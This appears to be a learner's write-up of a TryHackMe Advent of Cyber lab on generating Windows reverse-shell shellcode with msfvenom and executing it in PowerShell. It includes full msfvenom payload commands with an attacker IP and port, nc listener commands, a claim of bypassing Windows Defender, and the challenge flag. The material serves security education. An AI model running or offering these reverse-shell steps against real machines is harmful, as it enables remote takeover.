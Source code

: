# Day 8: Shellcodes of the world, unite!

**Learning Objectives**
- Grasp the fundamentals of writing shellcode
- Generate shellcode for reverse shells
- Executing shellcode with PowerShell

### Generating Shellcode
Let's learn how to generate a shellcode to see what it looks like. To do this, we will use a tool called `msfvenom` to get a reverse shell.  

In the **AttackBox**, open the terminal and enter the command `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell` that will generate the shellcode. Replace the `ATTACKBOX_IP` with the IP of the AttackBox (mine: **10.10.123.115**):
![image](https://github.com/user-attachments/assets/efcef4c5-f2eb-40a0-9032-d6474be9445a)

The command (`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell`) generates a piece of shellcode using `msfvenom`. Here's what each part means:

- `-p windows/x64/shell_reverse_tcp`: The `-p` flag tells `msfvenom` what type of payload to create. `windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
- `LHOST=ATTACKBOX_IP`: This is the IP address of the AttackBox. It tells the reverse shell where to connect back to.
- `LPORT=1111`: This is the port number on your machine that will listen for the reverse shell connection. When the target connects back to you, it will use this port (`1111` in this example). You can choose any available port, but it needs to match with what your listener is set to.
- `-f powershell`: This specifies the format for the output. In this case, we want the payload to be in PowerShell format so it can be executed as a script on a Windows machine.

### Time for Some Action - Executing the Shellcode

1. On the **AttackBox**, execute the command `nc -nvlp 1111` to start a listener on port 1111 and wait for an incoming connection. This command opens port 1111 and listens for connections, allowing the AttackBox to receive data once a connection is made.

2. On the **AttackBox**, begin by navigating to the Desktop. Right-click on the Desktop, select Create Document, and then choose Empty File. Open this new file and paste the previously provided PowerShell script code (on [THM](https://tryhackme.com/r/room/adventofcyber2024)) into it.

3. Look for the part labelled `SHELLCODE_PLACEHOLDER` and replace it with the shellcode we previously created with `msfvenom`.

4. Once you've added the shellcode navigate to the attached **VM**, open PowerShell by clicking the PowerShell icon on the taskbar and piece by piece, paste the code from the document you recently created to the Windows PowerShell window.

5. Once you've finished copy-pasting, press Enter.
![image](https://github.com/user-attachments/assets/5c3e434c-307d-45b6-9bbc-dd58e3b844b9)

>[!note]
>If your PowerShell terminal unexpectedly closes, it means your `nc` listener was not reachable, possibly because it was not running or was listening on the wrong port or IP.

6. Once you execute the final line in the PowerShell terminal and press Enter, you will get a reverse shell in the AttackBox, giving you complete access to the computer even if the Windows Defender is enabled.
![image](https://github.com/user-attachments/assets/216eb1f0-860f-4424-aa66-5c75d7e798fe)

7. Now you can issue any command, like issuing `dir`, which will list all the directories.
![image](https://github.com/user-attachments/assets/5d3eced2-9fb4-4754-9818-f6a13659b00f)

### Regaining Access
Let's dive into the story and troubleshoot the issue in this part of the task. Glitch has realised he's no longer receiving incoming connections from his home base. Mayor Malware's minion team seems to have tampered with the shellcode and updated both the IP and port, preventing Glitch from connecting. The correct IP address for Glitch is **10.10.123.115** (AttackBox IP), and the successful connection port should be **4444**.

Can you help Glitch identify and update the shellcode with the correct IP and port to restore the connection and reclaim control?

1. In the **AttackBox** terminal type: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.123.115 LPORT=4444 -f powershell`.
2. Press Enter. This will create a new shellcode.
3. In the **AttackBox**, execute the command `nc -nvlp 4444` to start a listener on port 4444.
4. In a new document copy and paste the PowerShell script on THM, putting the newly created shellcode in.
5. Copy and paste document text into the **VM** PowerShell.
6. Return to AttackBox terminal: we have remote access.
![image](https://github.com/user-attachments/assets/fde7bbb1-7133-47d0-baea-18a7cfebae2c)

### Answers
1. What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the **C:\Users\glitch\Desktop** directory. You can view the content of the flag by using the command `type C:\Users\glitch\Desktop\flag.txt` in the AttackBox terminal. *AOC{GOT MY_ACCESS_B@CK007}*.
